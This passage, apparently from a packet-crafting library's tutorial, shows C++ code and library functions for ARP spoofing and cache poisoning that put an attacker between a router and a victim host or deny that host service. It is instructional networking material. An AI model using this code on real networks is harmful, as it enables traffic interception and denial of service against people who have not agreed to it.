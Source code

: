 ```

	/* Set the signal handler */
	signal(SIGINT,ctrl_c);

	/* Loop until ctrl-c is pressed */
	while(spoof) {
		/* Send both packets */
		packetA.Send(iface);
		packetB.Send(iface);
		/* Wait a few seconds */
		sleep(5);
	}

	cout << "[@] Done! " << endl;

	return 0;
}
```

If you compile and execute the above code, the program will place your machine in the network segment between the router (192.168.1.1) and the machine with the IP 192.168.1.4. If you don't enable IP forwarding (by executing `echo 1 > /proc/sys/net/ipv4/ip_forward`) the attack will result in a denial of service to the IP 192.168.1.4.

The library provides a more efficient and convenient way to perform the technique shown above, by using the built-in function ARPSpoofingReply:

  * `ARPContext* ARPSpoofingReply(const std::string& net_target, const std::string& net_victim, const std::string& iface="")`
    * `net_target` : Set of IP addresses in nmap style that defines the target net. The target network usually consists of few hosts that are servers (DNS, HTTP, telnet, etc) or is the router on a LAN.
    * `net_victim` : Set of IP addresses in nmap style that defines the victim net. The victim network usually consists of  hosts that are not servers i.e. computers on a LAN.
    * `iface` : Network interface ("wlan0", "eth0", and so on).

As a reference, there is also the function:

  * `ARPContext* ARPSpoofingRequest(const std::string& net_target, const std::string& net_victim, const std::string& iface="")` : A more efficient technique is to use ARP requests, instead of ARP replies. Indeed, many network stacks have tightened their acceptance policy to insert an IP/MAC couple into the cache. Thus, using ARP requests for cache poisoning has the best acceptance rate across all OSes, including when the IP address is already present (cache updating)

A few conventions for both functions:

  * If your IP address (attacker) is contained in one of the two networks, will be removed.
  * If an IP address is contained in both networks will be removed from the victim network.
  * If an IP address does not respond to ARP requests (i.e. the IP address is not assigned to any computer) will be removed from the list no matter in which network is contained.

The above code is "equivalent" to:

```
#include <iostream>
#include <string>
#include <crafter.h>

/* Collapse namespaces */
using namespace std;
using namespace Crafter;

int main() {

	/* Set the interface */
	string iface = "wlan0";

	/* Host A IP address */
```